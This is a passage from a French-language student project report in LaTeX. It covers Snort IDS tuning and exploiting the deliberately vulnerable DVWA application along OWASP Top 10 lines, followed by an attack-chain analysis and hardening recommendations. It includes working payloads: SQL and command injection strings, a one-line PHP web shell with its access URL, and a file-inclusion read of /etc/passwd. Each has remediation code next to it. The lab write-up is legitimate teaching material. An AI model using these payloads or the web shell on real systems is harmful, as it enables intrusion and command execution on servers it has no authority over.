		
\includegraphics[width=0.98\textwidth]{screenshots/lan-alerts.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
		\caption*{\textbf{Référence :} screenshots/lan-alerts.png}
	}
	\caption{Snort Alerts (LAN) : mouvement latéral DMZ→LAN détecté}
	\label{fig:snort-alerts-lan}
\end{figure}

\section{Discussion : Pare-feu vs Snort (Visibilité)}

\subsection{Ce que le pare-feu voit}
Le pare-feu pfSense enregistre qu'un flux TCP a été autorisé entre deux zones selon des règles IP/ports. Un flux autorisé ne signifie pas que son contenu est légitime.

\subsection{Ce que Snort apporte}
Snort inspecte la charge utile (DPI) et produit : horodatage précis, classification, priorité, message décrivant la menace, SID permettant l'identification reproductible.

\textbf{Exemple concret :} Le firewall voit seulement \texttt{TCP 192.168.10.100:44152 → 192.168.20.50:445 ALLOWED}. Snort ajoute \textit{"ET EXPLOIT Possible ETERNALBLUE Probe MS17-010"} --- contexte d'attaque inestimable.

\section{Faux Positifs et Tuning}

Alertes de faux positifs observées :
\begin{itemize}
	\item \texttt{(http\_inspect) NO CONTENT-LENGTH OR TRANSFER-ENCODING IN HTTP RESPONSE}
	\item \texttt{ET POLICY GNU/Linux APT User-Agent Outbound} (gestion normale de paquets)
\end{itemize}

\textbf{Approche de tuning recommandée :}
\begin{enumerate}[leftmargin=*]
	\item Activer uniquement les catégories pertinentes (scan/exploit/samba/web).
	\item Utiliser \textbf{Suppress List} pour les signatures trop bruyantes.
	\item Ajouter des exceptions (\textbf{Pass Lists / IP Lists}) pour services légitimes.
	\item N'activer le mode IPS qu'après stabilisation du tuning.
\end{enumerate}

% ==============================================================================
% CHAPITRE 5 : WEB APPLICATION EXPLOITATION - DVWA
% ==============================================================================
\chapter{Web Application Exploitation --- DVWA}
\label{chap:dvwa}

\section{Architecture et Déploiement DVWA}

\subsection{Déploiement Docker}

\begin{lstlisting}[caption=Démarrage du Conteneur DVWA]
	$ sudo docker run -d \
	--restart=unless-stopped \
	-p 80:80 \
	--name dvwa \
	vulnerables/web-dvwa
	73c52c0ee9a905edc8aeeb6b6e8794444766b33d2f36df34e543b7e0a3662b1c
\end{lstlisting}

\begin{itemize}
	\item \textbf{URL :} \texttt{http://192.168.10.100/} (via NAT depuis WAN : \texttt{http://192.168.100.6/})
	\item \textbf{Identifiants par défaut :} \texttt{admin} / \texttt{password}
	\item \textbf{Niveau de sécurité :} ``LOW'' pour maximiser les vulnérabilités exposées
\end{itemize}

\subsection{Récapitulatif des Attaques}

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.3}
	\begin{tabular}{>{\centering\arraybackslash}p{1.5cm} p{4cm} p{5cm} >{\centering\arraybackslash}p{1.8cm}}
		\hline
		\rowcolor{tableheadbg}
		\textcolor{tableheadfg}{\textbf{ID}} &
		\textcolor{tableheadfg}{\textbf{Catégorie OWASP}} &
		\textcolor{tableheadfg}{\textbf{Attaque}} &
		\textcolor{tableheadfg}{\textbf{Status}} \\
		\hline
		\rowcolor{tablerowalt}
		\textbf{A01} & Broken Access Control & File Inclusion (LFI) & ✓ \\
		\textbf{A02} & Security Misconfiguration & Default Credentials & ✓ \\
		\rowcolor{tablerowalt}
		\textbf{A04} & Cryptographic Failures & Weak Session IDs & ✓ \\
		\textbf{A05} & Injection & SQL Injection & ✓ \\
		\rowcolor{tablerowalt}
		\textbf{A05} & Injection & Command Injection & ✓ \\
		\textbf{A07} & Authentication Failures & Brute Force Login & ✓ \\
		\rowcolor{tablerowalt}
		\textbf{A08} & File Upload & Web Shell Upload & ✓ \\
		\textbf{A10} & Error Message Disclosure & SQL Error Disclosure & ✓ \\
		\hline
	\end{tabular}
	\caption{Récapitulatif des Attaques Documentées (DVWA)}
	\label{tab:attack-summary}
\end{table}

\section{A05 : Injection --- SQL Injection}

\subsection{Exploitation}

\begin{lstlisting}[caption=Payload SQL Injection,numbers=none]
	' OR '1'='1' --
\end{lstlisting}

\subsection{Résultats}

\begin{lstlisting}[caption=Message d'erreur révélateur MariaDB]
	You have an error in your SQL syntax; check the manual that corresponds
	to your MariaDB server version for the right syntax to use near ''' at line 1
\end{lstlisting}

\textbf{Informations divulguées :} Type de base de données (MariaDB), structure de la requête vulnérable.

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/sql-injection-error.png}{
		
\includegraphics[width=0.95\textwidth]{screenshots/sql-injection-error.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
		\caption*{\textbf{Référence :} screenshots/sql-injection-error.png}
	}
	\caption{SQL Injection --- Message d'erreur MariaDB}
	\label{fig:sql-injection}
\end{figure}

\subsection{Remédiation}

\begin{lstlisting}[language=php,caption=Requête Sécurisée avec Prepared Statements]
	// VULNÉRABLE (À NE PAS UTILISER)
	$query = "SELECT * FROM users WHERE id = " . $_GET['id'];

	// SÉCURISÉ (Utiliser les prepared statements)
	$stmt = $mysqli->prepare("SELECT * FROM users WHERE id = ?");
	$stmt->bind_param("i", $_GET['id']);
	$stmt->execute();
\end{lstlisting}

\section{A05 : Injection --- Command Injection}

\subsection{Exploitation}

Payload dans le champ IP : \texttt{8.8.8.8; id}

\begin{lstlisting}[caption=Résultat de Command Injection,style=logstyle]
	PING 8.8.8.8 (8.8.8.8): 56 data bytes
	64 bytes from 8.8.8.8: icmp_seq=0 ttl=126 time=353.420 ms
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
\end{lstlisting}

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/command-injection.png}{
		
\includegraphics[width=0.95\textwidth]{screenshots/command-injection.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
		\caption*{\textbf{Référence :} screenshots/command-injection.png}
	}
	\caption{Command Injection --- Exécution de Commandes Système}
	\label{fig:command-injection}
\end{figure}

\subsection{Remédiation}

\begin{lstlisting}[language=php,caption=Protection contre Command Injection]
	// VULNÉRABLE
	exec("ping -c 4 " . $_GET['ip']);

	// SÉCURISÉ - Utiliser escapeshellarg() + whitelist
	$ip = escapeshellarg($_GET['ip']);
	exec("ping -c 4 " . $ip);
\end{lstlisting}

\section{A07 : Authentication Failures --- Brute Force Login}

\subsection{Exploitation}

\begin{itemize}
	\item \texttt{admin} / \texttt{admin} → Échec
	\item \texttt{admin} / \texttt{password} → \textbf{SUCCÈS}
	\item Aucun verrouillage de compte après 10+ tentatives
\end{itemize}

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/brute-froce.png}{
		
\includegraphics[width=0.95\textwidth]{screenshots/brute-froce.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
		\caption*{\textbf{Référence :} screenshots/brute-froce.png}
	}
	\caption{Brute Force --- Multiples Tentatives de Login Acceptées}
	\label{fig:brute-force}
\end{figure}

\subsection{Remédiation}

\begin{lstlisting}[language=php,caption=Protection Anti-Brute-Force]
	// Verrouillage progressif avec Redis
	$key = "failed_login:{$username}:{$ip}";
	$redis->incr($key);
	$redis->expire($key, 900); // 15 minutes
	if ($redis->get($key) >= 5) {
		throw new Exception("Compte verrouillé 15 min.");
	}
	usleep(($failed_attempts ^ 2) * 1000000); // Délai progressif
\end{lstlisting}

\section{A08 : File Upload --- Web Shell}

\subsection{Exploitation}

\begin{lstlisting}[language=php,caption=Web Shell PHP uploadé]
	<?php system($_GET['cmd']); ?>
\end{lstlisting}

\begin{lstlisting}[caption=Confirmation d'Upload Réussi,style=logstyle]
	../../hackable/uploads/shell.php successfully uploaded!
\end{lstlisting}

Accès via : \texttt{http://192.168.100.6/DVWA/uploads/shell.php?cmd=whoami} → \texttt{www-data}

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/file-upload.png}{
		
\includegraphics[width=0.95\textwidth]{screenshots/file-upload.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
		\caption*{\textbf{Référence :} screenshots/file-upload.png}
	}
	\caption{File Upload --- Web Shell Uploadé avec Succès}
	\label{fig:file-upload}
\end{figure}

\subsection{Remédiation}

\begin{lstlisting}[language=php,caption=Upload Sécurisé]
	$allowed = array('jpg', 'jpeg', 'png', 'gif');
	$ext = strtolower(pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION));
	if (!in_array($ext, $allowed)) { die("Extension non autorisée!"); }

	// Stocker HORS du répertoire web
	$upload_dir = '/var/uploads/secure/';
	move_uploaded_file($_FILES['file']['tmp_name'],
	    $upload_dir . uniqid() . '.' . $ext);
\end{lstlisting}

\section{A04 : Cryptographic Failures --- Weak Session IDs}

\begin{table}[H]
	\centering
	\renewcommand{\arraystretch}{1.6}
	\begin{tabular}{p{4cm} p{6cm} p{2cm}}
		\hline
		\rowcolor{tableheadbg}
		\textcolor{tableheadfg}{\textbf{Cookie}} &
		\textcolor{tableheadfg}{\textbf{Valeur}} &
		\textcolor{tableheadfg}{\textbf{Sécurité}} \\
		\hline
		\rowcolor{tablerowalt}
		\texttt{dvwaSession} & \texttt{3} (entier séquentiel) & ⚠️ Prévisible \\
		\texttt{PHPSESSID} & \texttt{4ca5feac5b5a...} (MD5) & ⚠️ Faible \\
		\rowcolor{tablerowalt}
		\texttt{Security} & \texttt{low} & ⚠️ Public \\
		\hline
	\end{tabular}
	\caption{Analyse des Cookies DVWA}
\end{table}

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/weak-sessions-id.png}{
		
\includegraphics[width=0.95\textwidth]{screenshots/weak-sessions-id.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
		\caption*{\textbf{Référence :} screenshots/weak-sessions-id.png}
	}
	\caption{Weak Session IDs --- Cookies prévisibles}
	\label{fig:weak-sessions}
\end{figure}

\subsection{Remédiation}

\begin{lstlisting}[language=php,caption=Génération Sécurisée de Session IDs]
	$session_id = bin2hex(random_bytes(32)); // 64 caractères hex
	session_id($session_id);
	session_start([
	    'cookie_httponly' => true,
	    'cookie_secure'   => true,
	    'cookie_samesite' => 'Strict'
	]);
\end{lstlisting}

\section{A02 : Security Misconfiguration --- Default Credentials}

Accès immédiat avec \texttt{admin/password}. Aucun MFA requis.

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/weak-creds.png}{
		
\includegraphics[width=0.95\textwidth]{screenshots/weak-creds.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
		\caption*{\textbf{Référence :} screenshots/weak-creds.png}
	}
	\caption{Connexion avec Identifiants par Défaut}
	\label{fig:weak-creds}
\end{figure}

\section{A01 : Broken Access Control --- Local File Inclusion}

\subsection{Exploitation}

URL modifiée : \texttt{http://192.168.100.6/vulnerabilities/fi/?page=/etc/passwd}

\begin{lstlisting}[style=logstyle,caption=Contenu de /etc/passwd divulgué]
	root:x:0:0:root:/root:/bin/bash
	daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	mysql:x:101:101:MySQL Server:/nonexistent:/bin/false
\end{lstlisting}

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/file-inclusion-lfi.png}{
		
\includegraphics[width=0.95\textwidth]{screenshots/file-inclusion-lfi.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
		\caption*{\textbf{Référence :} screenshots/file-inclusion-lfi.png}
	}
	\caption{Local File Inclusion --- /etc/passwd Exposé}
	\label{fig:file-inclusion}
\end{figure}

\subsection{Remédiation}

\begin{lstlisting}[language=php,caption=Protection contre Path Traversal]
	$allowed_pages = array('home', 'about', 'contact');
	$page = basename($_GET['page']);
	if (in_array($page, $allowed_pages)) {
		include(__DIR__ . '/pages/' . $page . '.php');
	} else {
		include(__DIR__ . '/pages/error.php');
	}
\end{lstlisting}

\section{A10 : Error Disclosure}

\begin{lstlisting}[caption=Message d'Erreur Divulgué en Production]
	You have an error in your SQL syntax; check the manual that corresponds
	to your MariaDB server version...
\end{lstlisting}

\subsection{Remédiation}

\begin{lstlisting}[language=php,caption=Gestion Sécurisée des Erreurs]
	try {
		$result = $mysqli->query($sql);
	} catch (Exception $e) {
		error_log($e->getMessage()); // Log serveur uniquement
		echo "Une erreur est survenue. Contactez l'administrateur.";
	}
\end{lstlisting}

\section{Tableau de Synthèse OWASP Top 10}

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.4}
	\begin{tabular}{p{1.3cm} p{3cm} p{2cm} p{2cm} p{4.5cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{OWASP}} &
		\textcolor{tableheadfg}{\textbf{Vulnérabilité}} &
		\textcolor{tableheadfg}{\textbf{CVSS}} &
		\textcolor{tableheadfg}{\textbf{Criticité}} &
		\textcolor{tableheadfg}{\textbf{Remédiation Clé}} \\
		\hline
		\rowcolor{tablerowalt}
		A01 & LFI Path Traversal & 7.5 & Haute & Whitelist des pages autorisées \\
		A02 & Default Credentials & 9.8 & Critique & Changer creds + MFA \\
		\rowcolor{tablerowalt}
		A04 & Weak Session IDs & 7.4 & Haute & random\_bytes(32) + HTTPS \\
		A05 & SQL Injection & 9.8 & Critique & Prepared Statements \\
		\rowcolor{tablerowalt}
		A05 & Command Injection & 9.8 & Critique & escapeshellarg() + whitelist \\
		A07 & Brute Force & 7.5 & Haute & Rate limiting + lockout \\
		\rowcolor{tablerowalt}
		A08 & File Upload (WebShell) & 9.8 & Critique & Extension + MIME whitelist \\
		A10 & Error Disclosure & 5.3 & Moyenne & Messages génériques + logs \\
		\hline
	\end{tabular}
	\caption{Tableau de Synthèse OWASP Top 10 --- DVWA}
	\label{tab:owasp-synthesis}
\end{table}

% ==============================================================================
% CHAPITRE 6 : ANALYSE INTÉGRÉE & RECOMMANDATIONS
% ==============================================================================
\chapter{Analyse Intégrée et Recommandations}
\label{chap:synthesis}

\section{Chaîne d'Attaque Complète : Analyse d'Efficacité}

Ce projet a démontré une chaîne d'attaque complète depuis la reconnaissance externe jusqu'au mouvement latéral interne :

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.5}
	\begin{tabular}{p{2.5cm} p{4.5cm} p{3cm} p{3cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Phase}} &
		\textcolor{tableheadfg}{\textbf{Vecteur}} &
		\textcolor{tableheadfg}{\textbf{Résultat}} &
		\textcolor{tableheadfg}{\textbf{Impact}} \\
		\hline
		\rowcolor{tablerowalt}
		Reconnaissance & Nmap (top 1000 ports) & 4/1000 ports exposés & Surface 0.4\% \\
		Compromission & Telnet faibles credentials & Shell interactif & Accès DMZ total \\
		\rowcolor{tablerowalt}
		Post-exploitation & Meterpreter reverse\_tcp & 2 sessions stables & Persistence C2 \\
		Pivoting & Route Metasploit via session 2 & LAN accessible & Contournement segmentation \\
		\rowcolor{tablerowalt}
		Mouvement latéral & SMB scan, portfwd RDP & Windows XP détecté & Reconnaissance LAN \\
		Web exploitation & DVWA OWASP Top 10 & 8 catégories exploitées & Données compromises \\
		\hline
	\end{tabular}
	\caption{Chaîne d'Attaque Complète --- Résultats par Phase}
	\label{tab:attack-chain}
\end{table}

\section{Lacunes Défensives Identifiées}

\begin{enumerate}[leftmargin=*]
	\item \textbf{Service Telnet avec credentials faibles :} Vecteur d'entrée initial. Telnet transmet les données en clair --- exploitable par sniffing réseau et brute-force.

	\item \textbf{Règle permissive DMZ → LAN :} La configuration laboratorium a délibérément autorisé ce trafic pour démontrer le pivoting. En production, cette règle constituerait une faille critique permettant la propagation latérale après compromission DMZ.

	\item \textbf{Privilèges sudo excessifs (telnetuser ALL) :} Élévation de privilèges immédiate après compromission initiale --- violation du principe du moindre privilège.

	\item \textbf{Application DVWA sans durcissement :} 8 catégories OWASP exploitées. Identifiants par défaut, pas de WAF, pas de rate limiting.

	\item \textbf{Windows XP SP3 (OS obsolète) :} Même patché, XP ne reçoit plus de mises à jour de sécurité depuis 2014. Sa présence dans le LAN représente un risque résiduel élevé.

	\item \textbf{IDS non configuré en mode IPS :} Snort détecte les attaques mais ne les bloque pas. Les alertes n'ont pas été intégrées à un SIEM pour corrélation et réponse automatique.
\end{enumerate}

\section{Leçons Apprises}

\begin{description}
	\item[La segmentation n'est pas suffisante seule :] Une règle permissive mal placée (DMZ → LAN) suffit à transformer la segmentation en fausse sécurité. La défense en profondeur exige que \textit{chaque couche} soit correctement configurée.

	\item[Le pivoting masque l'origine des attaques :] Du point de vue de Windows XP, l'attaque provenait de 192.168.10.100 (Ubuntu DMZ), pas de 192.168.100.150 (Parrot). La corrélation multi-sources (Snort + logs pfSense) est indispensable pour l'attribution.

	\item[L'IDS apporte une valeur complémentaire irremplaçable :] Snort a détecté le transfert ELF (Meterpreter payload) et la sonde EternalBlue --- deux événements que le pare-feu enregistre comme ``flux TCP autorisés''.

	\item[Les applications web sont une surface d'attaque critique :] 8 vulnérabilités OWASP exploitées sur une seule application démontrent que la sécurité applicative est souvent le maillon faible d'une infrastructure par ailleurs bien segmentée.
\end{description}

\section{Recommandations pour la Production}

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.5}
	\begin{tabular}{p{0.8cm} p{3.5cm} p{4cm} p{4.5cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Prio}} &
		\textcolor{tableheadfg}{\textbf{Recommandation}} &
		\textcolor{tableheadfg}{\textbf{Action}} &
		\textcolor{tableheadfg}{\textbf{Bénéfice}} \\
		\hline
		\rowcolor{tablerowalt}
		P1 & Supprimer Telnet & Remplacer par SSH avec clés & Chiffrement, résistance brute-force \\
		P1 & Durcir les credentials & MFA + politique mots de passe forts & Résistance aux credential attacks \\
		\rowcolor{tablerowalt}
		P1 & Bloquer DMZ → LAN & Règle Default Deny stricte & Empêche le mouvement latéral \\
		P2 & Activer mode IPS Snort & Bloquer les signatures confirmées & Réponse automatique aux attaques \\
		\rowcolor{tablerowalt}
		P2 & WAF applicatif & ModSecurity + règles OWASP & Protection SQL/Command Injection \\
		P2 & Remplacer Windows XP & OS supporté avec patches actifs & Élimination vulnérabilités legacy \\
		\rowcolor{tablerowalt}
		P3 & SIEM centralisé & ELK Stack ou Splunk & Corrélation d'événements et SOC \\
		P3 & Principe moindre privilège & Sudo granulaire par commande & Limitation de l'élévation post-compromission \\
		\hline
	\end{tabular}
	\caption{Recommandations Prioritisées pour la Production}
	\label{tab:recommendations}
\end{table}

\section{Travaux Futurs}

\subsection{Cowrie Honeypot}

Déployer Cowrie comme leurre SSH/Telnet dans la DMZ pour :
\begin{itemize}
	\item Capturer les techniques d'attaque des adversaires réels.
	\item Collecter des IoC (Indicators of Compromise) pour enrichir les signatures Snort.
	\item Retarder les attaquants et alerter l'équipe SOC.
\end{itemize}

\subsection{Wazuh SIEM}

Intégrer Wazuh pour la corrélation d'événements multi-sources :
\begin{itemize}
	\item Logs pfSense (pare-feu + DHCP) + alertes Snort IDS.
	\item Agents sur Ubuntu DMZ et Windows XP pour la détection hôte.
	\item Dashboards en temps réel et réponse à incident automatisée (Active Response).
\end{itemize}

\subsection{Tests de Pénétration Avancés}

\begin{itemize}
	\item Tester des vecteurs d'attaque chiffrés (HTTPS, SSH tunneling) contre Snort.
	\item Évaluer la résistance aux attaques zero-day avec fuzzing applicatif (Burp Suite Pro).
	\item Implémenter un programme de Bug Bounty interne pour l'application DVWA.
\end{itemize}

\section{Conclusion Générale}

Ce Projet de Fin d'Études a démontré, de manière pratique et rigoureuse, le cycle complet de la sécurité offensive et défensive dans une infrastructure réseau segmentée. Les cinq phases réalisées constituent une progression cohérente qui reflète les méthodologies utilisées par les professionnels de la cybersécurité.

\textbf{Points clés retenus :}

\begin{enumerate}
	\item La \textbf{défense en profondeur} (pfSense + UFW + Fail2Ban + Snort) a significativement réduit la surface d'attaque à 0.2\% des ports scannés.
	\item La \textbf{segmentation réseau} a contenu la compromission initiale à la DMZ --- le LAN n'a pas été directement atteint.
	\item L'\textbf{IDS Snort} a fourni une visibilité sur les attaques que le pare-feu seul ne pouvait pas caractériser, notamment le mouvement latéral via pivot.
	\item Les \textbf{8 vulnérabilités OWASP} exploitées sur DVWA rappellent que la sécurité applicative est aussi critique que la sécurité réseau.
	\item Le \textbf{facteur humain} (credentials faibles, mauvaises configurations) reste le maillon le plus vulnérable --- ni le pare-feu ni l'IDS ne compensent une mauvaise hygiène de sécurité.

\end{enumerate}

\begin{tcolorbox}[colback=primary!5!white, colframe=primary, title=\textbf{Message Final}]
	La sécurité est un processus continu, pas un état. Ce projet n'est pas la fin d'un apprentissage, mais le début d'une pratique permanente de veille, d'évaluation et d'amélioration des défenses. Les attaquants évoluent --- les défenseurs doivent évoluer plus vite.
\end{tcolorbox}

% ------------------------------------------------------------------------------
% BIBLIOGRAPHIE / RÉFÉRENCES
% ------------------------------------------------------------------------------
\chapter*{Références et Ressources}
\addcontentsline{toc}{chapter}{Références et Ressources}

\begin{itemize}
	\item \textbf{OWASP Top 10 (2021)} : \url{https://owasp.org/www-project-top-ten/}
	\item \textbf{MITRE ATT\&CK Framework} : \url{https://attack.mitre.org/}
	\item \textbf{pfSense Documentation} : \url{https://docs.netgate.com/pfsense/en/latest/}
	\item \textbf{Snort Rules Reference} : \url{https://www.snort.org/rule-docs}
	\item \textbf{Metasploit Unleashed} : \url{https://www.offensive-security.com/metasploit-unleashed/}
	\item \textbf{Nmap Network Scanning} --- Gordon Lyon (Fyodor), 2009
	\item \textbf{The Web Application Hacker's Handbook} --- Stuttard \& Pinto, 2011
	\item \textbf{Emerging Threats Open Rules} : \url{https://rules.emergingthreats.net/}
	\item \textbf{NIST Cybersecurity Framework} : \url{https://www.nist.gov/cyberframework}
	\item \textbf{Lockheed Martin Cyber Kill Chain} : \url{https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html}
\end{itemize}

% ------------------------------------------------------------------------------
% FIN DU DOCUMENT
% ------------------------------------------------------------------------------
\end{document}
